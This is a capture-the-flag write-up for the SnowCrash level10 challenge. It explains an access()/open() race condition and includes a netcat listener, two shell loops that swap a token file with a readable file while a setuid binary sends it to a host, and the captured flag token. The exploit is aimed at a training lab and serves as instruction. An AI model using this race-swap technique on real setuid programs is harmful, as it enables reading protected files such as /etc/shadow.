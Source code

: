 ## Walkthrough :

+ i started by executing **./level10**, this prints the usage 
```
level10@SnowCrash:~$ ./level10
./level10 file host
	sends file to host if you have access to it
```
+ tryied **strings level10** , the server is trying to connect to a host in 6969 port.
+ launched **netstat -l** the port wasn't open. so i opened it using :
```
nc -lk 6969
```
* i noticed the use of **access function** which gives the possiblity of a security hole.
	##### Description from stackexchange:
	+ *It is a race condition. You do the access(), then you do the open(). In the small time between the two calls, the file may have changed. Typically, the file is, say, /tmp/foo. Initially, the file is owned by some user (who is the bad guy of the story), and the target is some root-powered application. The application does the access(), sees that the file really belongs to the user, and thus thinks: "that's fine, it's his file, I can process it on his behalf". Then the bad guy quickly replaces the file with a symbolic link to /etc/shadow. The application has already taken the decision to open /tmp/foo, but when it does, it really opens and processes /etc/shadow*

+ i did two scripts : 
	+ the first to shift between 3 files (token , and two random files), 
	+ the second to send in loop a file i have access.
```
#!/bin/sh

while true
do
	mv token tmp
	mv file token
	mv tmp file
done
```

```
#!/bin/sh

while true
do
	./level10 file 0.0.0.0
done
```
+ launching the two scripts i got this token
```
woupa2yuojeeaaed06riuj63c
```
+ log in to flag10 with the token , and launch getflag!.

## Ressources :
+ [race condition](https://web.ecs.syr.edu/\~wedu/Teaching/IntrCompSec/LectureNotes_New/Race_Condition.pdf)  
+ [access() Security Hole](https://stackoverflow.com/questions/7925177/access-security-hole)